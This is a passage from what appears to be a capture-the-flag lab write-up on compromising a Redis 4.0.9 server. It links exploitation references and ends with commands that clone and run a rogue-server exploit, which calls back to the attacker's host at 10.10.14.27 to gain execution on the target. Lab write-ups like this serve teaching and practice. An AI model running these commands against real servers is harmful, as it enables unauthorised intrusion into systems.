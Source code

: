 ![redis1](./postman/redis1.png)

This verifies the target verison `4.0.9 x86_64` is vulnerable and the name of the database `dump.rdb`. A bit of reading on redis exploits helps:

- https://book.hacktricks.xyz/pentesting/6379-pentesting-redis
- https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

Some Googling for a non-Metasploit version of this exploit brings up the following repos:

- https://github.com/vulhub/redis-rogue-getshell
- https://github.com/n0b0dyCN/redis-rogue-server

Try the exploit:

```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server.git
cd redis-rogue-server/
python3 redis-rogue-server.py --lhost 10.10.14.27 --rhost 10.10.10.160 --rport 6379 --verbose
```
